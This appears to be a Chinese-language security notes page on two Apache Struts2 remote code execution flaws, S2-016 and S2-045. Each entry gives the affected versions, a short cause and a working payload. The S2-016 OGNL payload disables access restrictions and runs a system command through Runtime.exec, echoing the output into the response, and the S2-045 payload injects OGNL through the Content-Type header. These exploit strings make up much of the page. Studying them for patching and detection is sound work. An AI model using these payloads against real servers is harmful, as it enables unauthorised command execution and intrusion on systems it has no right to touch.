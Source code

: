 ## s2-016

[参考](https://xz.aliyun.com/t/4603)

影响版本：2.0.0 - 2.3.15

处理重定向前缀 `action:` / `redirect:` / `redirectAction:` 时对后面的 URL 进行 OGNL 解析，导致任意代码执行。

```java
index.action?redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

## s2-045

[参考](https://paper.seebug.org/247/)

影响版本：2.3.5 - 2.3.31, 2.5 - 2.5.10

发上传数据包时，修改 `Content-Type` 头使得解析异常，从而导致报错信息被当作 OGNL 表达式执行。

实际上，并不需要使用 POST 方法，也不需要网站存在上传文件功能，只需要 `Content-Type` 中包含 `multipart/form-data` 即可。如：

```java
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('result',3048+9572)}.multipart/form-data
```

![图 6](6.png)
